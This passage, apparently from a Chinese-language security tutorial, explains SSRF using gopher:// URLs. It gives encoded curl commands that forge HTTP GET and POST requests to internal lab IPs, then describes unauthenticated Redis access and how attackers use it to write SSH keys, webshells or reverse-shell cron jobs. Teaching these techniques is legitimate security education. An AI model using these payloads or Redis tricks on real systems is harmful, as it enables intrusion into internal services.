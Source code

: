> 普通GET型HTTP包如下：
>
> curl gopher://192.168.109.166:80/_GET /get.php?param=Konmu HTTP/1.1Host:192.168.109.166%0d%0a      
>
> 进行URL编码：
> 主要变化：
>
> ？ 被转换成了 %3f
>
> 换行被转换成了 %0d%0a
>
> 空格 被转换成了 %0d
>
> 变换后：
>
> curl gopher://192.168.109.166:80/_GET%20/get.php%3fparam=Konmu%20HTTP/1.1%0d%0aHost:192.168.109.166%0d%0a

​	2. **发送HTTP POST请求**
​	有4个必要参数：Content-Type、Content-Length、host、post

> POST请求包如下：
>
> POST /ssrf/base/post.php HTTP/1.1
>
> host:192.168.0.109
>
> Content-Type:application/x-www-form-urlencoded
>
> Content-Length:11 
> （此处有一个换行）                                              
> name=Margin
>
> 编码后：
>
> curl gopher://192.168.0.109:80/_POST%20/ssrf/base/post.php%20HTTP/1.1%0d%0AHost:192.168.0.109%0d%0AContent-Type:application/x-www-form-urlencoded%0d%0AContent-Length:11%0d%0A%0d%0Aname=Margin%0d%0A

## 攻击内网Redis
### Redis未授权访问漏洞
Redis是一个key-value存储系统。Redis（Remote Dictionary Server )，即远程字典服务，是一个开源的使用ANSI C语言编写、支持网络、可基于内存亦可持久化的日志型、Key-Value数据库，并提供多种语言的API。
Redis 在默认情况下，会绑定在 0.0.0.0:6379，如果没有进行采用相关的策略，比如添加防火墙规则避免其他非信任来源 ip 访问等，这样将会将 Redis 服务暴露到公网上，如果在**没有设置密码认证（一般为空）**，会导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。攻击者在未授权访问 Redis 的情况下，利用 Redis 自身的提供的 config 命令，可以进行写文件操作，攻击者可以成功将自己的ssh公钥写入目标服务器的 /root/.ssh 文件夹的 authotrized_keys 文件中，进而可以使用对应私钥直接使用ssh服务登录目标服务器。，也可以直接写入Webshell或者写入计划任务进行反弹shell。

**漏洞产生原因：**

（1）Redis绑定在0.0.0.0:6379，且没有添加防火墙规则避免非信任来源ip访问等安全策略，导致其直接暴露在公网

（2）没有设置密码认证或弱密码，导致可以免密登录redis服务
